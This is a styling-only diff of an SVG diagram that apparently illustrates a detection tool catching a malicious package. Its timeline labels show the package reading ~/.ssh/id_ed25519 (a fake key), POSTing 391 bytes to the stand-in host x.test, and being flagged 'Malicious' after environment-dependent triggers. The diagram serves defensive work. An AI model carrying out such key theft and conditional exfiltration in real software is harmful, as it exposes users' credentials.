-     <rect x="582" y="206" width="76" height="24" rx="12" fill="#1f242c" />
-     <text x="620" y="222" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795" text-anchor="middle">set_env</text>
+     <rect x="582" y="206" width="76" height="24" rx="0" fill="#e4e8e0" />
+     <text x="620" y="222" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65" text-anchor="middle">set_env</text>
  </g>
  <g class="a7">
-     <rect x="664" y="206" width="88" height="24" rx="12" fill="#1f242c" />
-     <text x="708" y="222" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795" text-anchor="middle">hostname</text>
+     <rect x="664" y="206" width="88" height="24" rx="0" fill="#e4e8e0" />
+     <text x="708" y="222" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65" text-anchor="middle">hostname</text>
  </g>
  <g class="a7">
-     <rect x="758" y="206" width="100" height="24" rx="12" fill="#1f242c" />
-     <text x="808" y="222" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795" text-anchor="middle">answer_yes</text>
+     <rect x="758" y="206" width="100" height="24" rx="0" fill="#e4e8e0" />
+     <text x="808" y="222" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65" text-anchor="middle">answer_yes</text>
  </g>
  <g class="a8">
-     <rect x="758" y="206" width="100" height="24" rx="12" fill="#221a3a" stroke="#b79bff" stroke-width="1.6" />
-     <text x="808" y="222" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" font-weight="700" fill="#b79bff" text-anchor="middle">answer_yes</text>
+     <rect x="758" y="206" width="100" height="24" rx="0" fill="#eff1ea" stroke="#444d47" stroke-width="1.6" />
+     <text x="808" y="222" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" font-weight="700" fill="#444d47" text-anchor="middle">answer_yes</text>
  </g>
  <g class="a7">
-     <rect x="864" y="206" width="94" height="24" rx="12" fill="#1f242c" />
-     <text x="911" y="222" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795" text-anchor="middle">skip_sleep</text>
+     <rect x="864" y="206" width="94" height="24" rx="0" fill="#e4e8e0" />
+     <text x="911" y="222" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65" text-anchor="middle">skip_sleep</text>
  </g>
  <g class="a9">
-     <rect x="536" y="250" width="440" height="136" rx="12" fill="#171b21" stroke="#2a303a" stroke-width="1" />
-     <circle cx="560" cy="274" r="12" fill="#ff6f69" />
-     <text x="560" y="279" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13" font-weight="800" fill="#0f1216" text-anchor="middle">3</text>
-     <text x="582" y="279" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15" font-weight="700" fill="#e8ebf0">Second run: FirstRun answers y</text>
+     <rect x="536" y="250" width="440" height="136" rx="0" fill="#fdfdfb" stroke="#cdd3c9" stroke-width="1" />
+     <circle cx="560" cy="274" r="12" fill="#b81f19" />
+     <text x="560" y="279" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13" font-weight="800" fill="#f6f7f2" text-anchor="middle">3</text>
+     <text x="582" y="279" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15" font-weight="700" fill="#161a17">Second run: FirstRun answers y</text>
  </g>
  <g class="a10">
-     <text x="582" y="308" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795">+1.59s</text>
-     <text x="640" y="308" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#e8ebf0">Opened ~/.ssh/id_ed25519 (fake key)</text>
+     <text x="582" y="308" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65">+1.59s</text>
+     <text x="640" y="308" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#161a17">Opened ~/.ssh/id_ed25519 (fake key)</text>
  </g>
  <g class="a11">
-     <text x="582" y="334" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795">+1.77s</text>
-     <text x="640" y="334" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#e8ebf0">POST 391 bytes to x.test</text>
+     <text x="582" y="334" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65">+1.77s</text>
+     <text x="640" y="334" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#161a17">POST 391 bytes to x.test</text>
  </g>
  <g class="a12">
-     <text x="582" y="360" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#7d8795">+1.79s</text>
-     <text x="640" y="360" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" font-weight="600" fill="#ffb4b0">Fake key found in the request body</text>
+     <text x="582" y="360" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12.5" fill="#626c65">+1.79s</text>
+     <text x="640" y="360" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" font-weight="600" fill="#8c140f">Fake key found in the request body</text>
  </g>
  <g class="a13">
-     <rect x="850" y="256" width="114" height="30" rx="15" fill="#c0302a" />
-     <text x="907" y="276" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15.5" font-weight="800" fill="#fff" text-anchor="middle">Malicious</text>
+     <rect x="850" y="256" width="114" height="30" rx="0" fill="#c0261f" />
+     <text x="907" y="276" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15.5" font-weight="800" fill="#fff" text-anchor="middle">Malicious</text>
  </g>
</svg>
